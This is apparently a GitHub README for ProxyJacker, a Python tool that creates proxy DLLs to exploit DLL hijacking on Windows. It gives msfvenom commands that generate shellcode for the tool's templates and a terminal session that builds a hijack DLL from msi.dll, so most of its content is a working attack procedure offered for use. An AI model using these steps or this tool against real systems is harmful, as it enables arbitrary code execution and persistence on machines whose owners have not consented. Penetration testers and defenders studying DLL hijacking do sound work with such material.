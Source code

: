 # ProxyJacker

### Details:

​	Tool for creating forwarding dll for exploiting dll hijacking vulnerability. 

### Requirements:

- [ ] Mingw-64 installed.
- [ ] python2. 
- [ ] PEfiles lib.

### Procedure: 

1. Create shellcode with msfvenom and replace with template file with `YOUR SHELLCODE` 

   ```bash
   msfvenom -p windows/x64/exec cmd=cmd.exe -f c -b "\x00" //FOR 64bit
   msfvenom -p windows/exec cmd=cmd.exe -f c -b "\x00" //FOR 32bit
   ```

2. Run script.

   ```
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py 
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   
   Usage: proxydllhijacker.py 'DLL File Location' 
   
   Usage: proxydllhijacker.py '/home/kali/xyz/abc.dll' 
   
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py msi.dll
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   [*] DLL is 32bit 
   
   [*] Defination File Created with name of export.def
   
   [*] Created 32bit DLL : msi_proxy.dll
   kali@kali:~/Music/hijack/proxyjacker$ ls 
   export.def  msi.dll  msi_proxy.dll  proxydllhijacker.py  template_64.c  template.c
   ```

   
